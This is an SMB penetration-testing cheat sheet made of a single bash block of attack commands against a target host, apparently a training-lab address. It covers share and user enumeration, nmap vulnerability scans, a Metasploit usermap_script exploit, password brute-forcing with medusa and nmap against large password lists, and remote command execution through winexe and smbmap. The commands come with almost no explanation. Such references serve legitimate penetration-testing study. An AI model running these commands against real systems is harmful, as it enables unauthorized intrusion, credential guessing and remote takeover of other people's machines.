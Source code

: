 ```bash
enum -s 10.11.1.111
enum -U 10.11.1.111
enum -P 10.11.1.111
enum4linux -a 10.11.1.111
#https://github.com/cddmp/enum4linux-ng/
enum4linux-ng.py 10.11.1.111 -A -C
/usr/share/doc/python3-impacket/examples/samrdump.py 10.11.1.111

# Connect to username shares
smbclient //10.11.1.111/share -U username

# Connect to share anonymously
smbclient \\\\10.11.1.111\\
smbclient //10.11.1.111/
smbclient //10.11.1.111/
smbclient //10.11.1.111/<""share name"">
rpcclient -U " " 10.11.1.111
rpcclient -U " " -N 10.11.1.111

# Check vulns
nmap --script smb-vuln* -p139,445 -T4 -Pn 10.11.1.111

# Multi exploits
msfconsole; use exploit/multi/samba/usermap_script; set lhost 192.168.0.X; set rhost 10.11.1.111; run

# Bruteforce login
medusa -h 10.11.1.111 -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt 
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt 10.11.1.111  -vvvv
nmap –script smb-brute 10.11.1.111

# nmap smb enum & vuln 
nmap --script smb-enum-*,smb-vuln-*,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-protocols -p 139,445 10.11.1.111
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse -p 139,445 10.11.1.111

# Mount smb volume linux
mount -t cifs -o username=user,password=password //x.x.x.x/share /mnt/share

# rpcclient commands
rpcclient -U "" 10.11.1.111
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall

# Run cmd over smb from linux
winexe -U username //10.11.1.111 "cmd.exe" --system

# smbmap
smbmap.py -H 10.11.1.111 -u administrator -p asdf1234 #Enum
smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H 10.11.1.111 #RCE
smbmap.py -H 10.11.1.111 -u username -p 'P@$$w0rd1234!' -L # Drive Listing
```